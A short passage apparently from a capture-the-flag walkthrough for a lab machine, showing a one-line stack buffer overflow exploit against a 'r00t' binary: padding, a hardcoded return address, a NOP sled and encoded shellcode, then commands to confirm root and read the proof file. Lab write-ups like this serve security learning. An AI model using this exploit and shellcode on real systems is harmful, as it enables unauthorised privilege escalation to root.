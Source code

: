 ```bash
env - ./r00t $(python -c 'print "A" * 268 + "\x80\xfc\xff\xbf" + "\x90" * 16 + "\xdb\xd6\xb8\xac\x61\x13\xf8\xd9\x74\x24\xf4\x5d\x2b\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\x59\x0b\x18\xa0\x38\x9e\x78\x38\x17\x7c\x0c\x5f\x0f\xad\x7d\xc8\xcf\xd9\xae\x6a\xa6\x77\x38\x89\x6a\x60\x32\x4e\x8a\x70\x6c\x2c\xe3\x1e\x5d\xc3\x9b\xde\xf6\x70\xd2\x3e\x35\xf6"')
whoami
id
pwd
cd /root
ls
cat Proof.txt
```

![root](/assets/img/posts/troll2/34.png)
